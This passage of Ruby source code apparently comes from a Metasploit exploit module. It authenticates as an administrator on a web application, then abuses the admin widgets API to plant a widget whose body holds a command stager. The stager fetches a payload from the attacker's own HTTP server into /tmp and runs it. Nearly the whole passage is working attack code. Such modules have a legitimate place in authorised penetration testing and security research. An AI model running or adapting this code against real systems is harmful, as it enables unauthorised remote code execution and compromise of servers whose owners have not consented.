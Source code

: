     unless res
      fail_with(Failure::Unknown, 'Connection timed out')
    end
 
    json_res = res.get_json_document
    cookies = res.get_cookies
    # If it's an array it could be an error, so we are specifically looking for a hash.
    if json_res.kind_of?(Hash) && json_res['success']
      token = AdminToken.new(cookies)
      @admin_token = token
      return token
    end
    fail_with(Failure::NoAccess, 'Invalid username or password')
  end
 
  def create_widget(admin_token)
    platform = target.platform.names.first
    host = datastore['SRVHOST'] == '0.0.0.0' ? Rex::Socket::source_address : datastore['SRVHOST']
    port = datastore['SRVPORT']
    proto = datastore['SSL'] ? 'https' : 'http'
    payload_name = "p_#{Rex::Text.rand_text_alpha(5)}"
    url = "#{proto}://#{host}:#{port}#{get_resource}/#{payload_name}"
    widget = Widget.new(platform, url, generate_cmdstager(
        'Path' => "#{get_resource}/#{payload_name}",
        'temp' => '/tmp',
        'file' => payload_name
      ).join(';'))
 
    json_body = {
      'name'     => widget.name,
      'category' => widget.category,
      'body'     => widget.source_code
    }.to_json
 
    res = send_request_cgi({
      'method' => 'POST',
      'uri'    => normalize_uri(target_uri.path, 'admin', 'api', 'widgets'),
      'cookie' => "__admin=#{admin_token.token}",
      'ctype'  => 'application/json',
      'data'   => json_body
    })
 
    unless res
      fail_with(Failure::Unknown, 'Connection timed out')
    end
 
    res_json = res.get_json_document
    if res_json.kind_of?(Hash) && res_json['success']
      print_good("Widget created successfully")
    else
      fail_with(Failure::Unknown, 'No success message in body')
    end
 